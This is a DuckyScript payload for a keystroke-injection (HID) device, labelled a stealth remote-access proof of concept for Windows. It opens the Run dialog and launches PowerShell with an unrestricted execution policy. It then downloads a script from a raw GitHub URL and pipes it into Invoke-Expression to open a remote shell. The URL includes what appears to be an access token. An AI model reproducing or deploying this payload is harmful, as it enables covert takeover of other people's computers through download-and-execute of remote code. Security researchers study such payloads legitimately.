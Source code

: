 REM       HIDX_Stealth_Link_Remote_Access_PoC_IEX
REM       Version 1.0
REM       OS: Windows
REM       Author: 0i41E
REM       Requirements: Firmware Version 3.0 minimum, Universal Python Listener, Activated HIDX

REM       HID based remote shell, executed via powershell.

REM Define the URL where you hosted your PoC
DEFINE #URL (https://raw.githubusercontent.com/gunz0blazin/OMG-Scripts/refs/heads/main/REM%20HIDX_Stealth_Link_Remote_Access_PoC_.md?token=GHSAT0AAAAAAC5YCZG2TFRKYJ5SUWGI5EGMZ4ROURA)

REM Define Keymap below
DUCKY_LANG us
DELAY 2000
GUI r
DELAY 500
STRINGLN powershell -executionpolicy unrestricted
DELAY 1000
REM Calling HIDX poc via Invoke-Webrequest and execute it via Invoke-Expression
STRINGLN Invoke-WebRequest -UseBasicParsing -Uri "#URL" | iex;HIDXShell
